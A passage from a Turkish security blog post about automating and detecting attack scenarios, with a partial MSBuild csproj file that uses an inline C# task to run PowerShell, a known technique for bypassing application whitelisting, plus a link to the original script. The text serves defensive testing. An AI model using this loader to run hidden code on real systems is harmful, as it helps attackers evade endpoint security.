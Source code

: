 <br />

<br />

Buraya kadar nasıl önlem alabileceğimizi az çok göstermeye çalıştım fakat bir diğer önemli konu bu saldırı senaryolarının otomatize hale getirilmesi. Bir yandan atak senaryomuzu deneyip bir yandan logları incelemeye çalışırken fazla zaman harcayabiliyoruz. Fireeye'ın satın aldığı eski adıyla Verodin şimdi ki adıyla  Mandiant Security Validation ürünü sayesinde yazdığımız atak senaryolarını otomatize hale getirebiliriz. SIEM, Network, Endpoint güvenlik ürünleriyle de entegre olarak senaryoların sonucunda üretilen alarmları, logları, engellenip engellenmediğini bize gösteriyor. 

[^Üstte PowerLessShell ile oluşturduğum csproj dosyası ile Verodin'e eklediğim csproj dosyası birbirinden farklı. Verodin'le test ederken Empire'a bağlantı almayacağım için PowerShell'de komut çalıştırabileceğim bir csproj işimizi görüyor.]: 



PowerShell kodu çalıştırabileceğim bir csproj dosyası hazırlarken internette daha önce **powashell.csproj** adıyla yazılan bir dosyaya denk geldim.

[powashell.csproj](https://gist.githubusercontent.com/egre55/7a6b6018c9c5ae88c63bdb23879df4d0/raw/2a27c22e8d3436640e7f1ac5219095af3075b446/powashell.csproj)

Scripte aşağıdaki gibi encode edilmiş bir powershell komutu ekledim.

```
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
  <!-- This inline task executes c# code. -->
  <!-- C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe powaShell.csproj -->
  <Target Name="Hello">
   <ClassExample />
  </Target>
  <UsingTask
    TaskName="ClassExample"
    TaskFactory="CodeTaskFactory"
    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
  <Task>
   <Reference Include="C:\Windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35\System.Management.Automation.dll" />
   <!-- Your PowerShell Path May vary -->
      <Code Type="Class" Language="cs">
        <![CDATA[

      // all code by Casey Smith @SubTee

      using System;
      using System.Reflection;
      using Microsoft.Build.Framework;
      using Microsoft.Build.Utilities;
      
      using System.Collections.ObjectModel;
      using System.Management.Automation;
      using System.Management.Automation.Runspaces;
      using System.Text;
        
      public class ClassExample :  Task, ITask
      {
        public override bool Execute()
        {
          //Console.WriteLine("Hello From a Class.");
          Console.WriteLine(powaShell.RunPSCommand());
          return true;
        }
      }
      
      //Based on Jared Atkinson's And Justin Warner's Work
      public class powaShell
      {
```
